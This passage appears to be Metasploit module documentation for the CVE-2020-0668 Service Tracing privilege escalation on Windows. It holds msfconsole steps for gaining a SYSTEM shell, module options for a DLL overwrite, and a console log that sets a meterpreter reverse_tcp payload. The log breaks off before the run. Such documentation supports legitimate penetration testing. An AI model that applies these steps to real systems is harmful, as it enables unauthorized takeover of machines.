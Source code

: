    location. The result is an arbitrary file write to a trusted
   location.
1. At this point, the overwrite is complete and we launch a trigger
   starting the System Orchestrator service which loads the overwritten
   dll.

## Verification Steps

  1. Start msfconsole
  2. Get a session with basic privileges
  3. Do: ```use exploit/windows/local/cve_2020_0668_service_tracing```
  4. Do: ```set payload windows/x64/<payload>```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell running as SYSTEM after several minutes.

## Options

  **EXPLOIT_DIR**
  Directory to use for file upload and linking; this should not already
  exist.  The directory cannot be deleted until after a reboot.

  **OVERWRITE_DLL**
  Overwrite WindowsCreDeviceInfo.dll if it exists (false by default).
  WindowsCoreDeviceInfo.dll is not present by default, but if it is
  present, it is likely loaded, so even with this set to true, the
  overwrite (and exploit) will fail.

  **PAYLOAD_UPLOAD_NAME**
  The filename to use for the payload binary (%RAND% by default).
  This is the name of the dll payload when uploaded to the remote host.

  **PHONEBOOK_UPLOAD_NAME**
  The name of the phonebook file to trigger RASDIAL (%RAND% by default).
  The rasdialer trigger requires a config file; this is the name of the
  xml file required to trigger the RAST service.

## Scenarios

### Tested on Windows10 x64 Release 1803

  ```
meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/cve_2020_0668_service_tracing
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
  ```